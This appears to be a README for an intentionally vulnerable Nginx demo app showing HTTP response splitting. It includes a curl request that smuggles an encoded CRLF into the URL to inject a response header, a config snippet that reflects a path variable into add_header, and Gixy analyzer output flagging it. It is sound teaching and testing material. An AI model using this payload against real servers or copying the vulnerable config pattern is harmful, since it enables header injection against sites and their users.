 # Nginx HTTP response splitting sample app

![top](./screenshots/top.png)

```
$ curl -v localhost:3000/v1/see%20below%0d%0ax-crlf-header:injected.json
*   Trying ::1...
* TCP_NODELAY set
* Connection failed
* connect to ::1 port 3000 failed: Connection refused
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to localhost (127.0.0.1) port 3000 (#0)
> GET /v1/see%20below%0d%0ax-crlf-header:injected.json HTTP/1.1
> Host: localhost:3000
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.17.10
< Date: Thu, 07 May 2020 19:16:33 GMT
< Content-Type: application/json
< Content-Length: 2
< Connection: keep-alive
< X-Action: see below
< x-crlf-header:injected
< 
* Connection #0 to host localhost left intact
OK
```

## How to use
Dockerfile exists. Sample app work on any port.

```
$ docker build -t nginx-splitting .
$ docker run -d -p 127.0.0.1:3000:80 nginx-splitting:latest
```

## Tools to find
[Gixy](https://github.com/yandex/gixy) is a tool to analyze Nginx configuration.

```
$ gixy vulnerable.conf 

==================== Results ===================

>> Problem: [http_splitting] Possible HTTP-Splitting vulnerability.
Description: Using variables that can contain "\n" or "\r" may lead to http injection.
Additional info: https://github.com/yandex/gixy/blob/master/docs/en/plugins/httpsplitting.md
Reason: At least variable "$action" can contain "\n"
Pseudo config:

server {

	location ~ /v1/((?<action>[^.]*)\.json)?$ {
		add_header X-Action $action;
	}
}

==================== Summary ===================
Total issues:
    Unspecified: 0
    Low: 0
    Medium: 0
    High: 1

```

## Licence
The MIT License
